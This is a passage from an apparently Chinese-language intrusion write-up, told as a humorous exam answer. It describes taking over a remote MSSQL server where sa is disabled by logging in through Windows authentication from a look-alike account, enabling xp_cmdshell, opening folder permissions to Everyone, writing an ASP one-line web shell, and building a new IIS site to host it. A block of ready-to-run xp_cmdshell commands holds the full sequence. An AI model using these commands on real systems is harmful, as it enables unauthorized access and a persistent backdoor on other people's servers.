 堡垒鸡，你还配作一个代理吗，刀枪林立，戒备森严，我还是远远绕道莫要理会。

0x06 cvbb再次出场
=====

我欲乘风归去，cvbb却死皮赖脸地抱住导演的大腿直抱怨戏份少，走不得，无奈，只得加戏！

场景一：期末考试中，cvbb正襟危坐，实则早与外部搭上了天地线。

Q：（问答题，10分）已知远程Mssql主机的系统管理帐号hds129adm，密码x，禁用了sa，请给出登录步骤。（警告：挑战主考官智商者倒扣10分）

cvbb欲答：速令黑社会24小时内占领主机！这气势，是挑战主考官的节奏吗？再看外边传进的答案：

A： （1） 运行虚拟机，添加同名、同密码帐户，以此帐户重新登录

（2） 在虚拟机中，运行SSMS，选择“Windows身份验证”登录数据库（图16，17）

（3） 启用cmdshell

（4） 在cmdshell中检查w3svc等IIS相关服务及80端口是否正常，必要时使用adsutil.vbs创建一个新站点（图18）

（5） 在所选的站点下生成一句话（图18）

（6） 使用一句话上传端口转发工具

（7） 凌晨两点准时鸣放100响礼炮提醒大家早睡早起身体好

![](http://drops.javaweb.org/uploads/images/61fdea9484a2897d05bd829f176a9e2d05dfff31.jpg)

图16 禁用sa也无妨

![](http://drops.javaweb.org/uploads/images/b7fb9266081b268f042f8fd4398976bde1571f53.jpg)

图17 禁用sa也无妨之二

```
exec xp_cmdshell 'c:\windows\system32\cmd.exe /c cacls d:\software /e /t /g everyone:f'
exec xp_cmdshell 'echo ^<%b=request("#")%^>^<%eval b%^>  > d:\software\1.asp'    

exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs create_vserv w3svc/99'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/serversize 100'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/servercomment "test"'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/serverbindings ":80:"'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/enabledefaultdoc true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/path d:\software'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/accessread true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/accesswrite true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/accessscript true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/enabledefaultdoc true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/appfriendlyName 默认应用程序'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs start_server w3svc/99'

```

图18 创建新站点，生成一句话

使用Dos命令echo生成一句话时使用了转义符^（数字6上头之符号）。新站点可直接使用IP地址访问。某些防火墙可能会限制IP地址的访问，随机应变就是了。

场景二：期末考试进行中，vcbb仍正襟危坐。
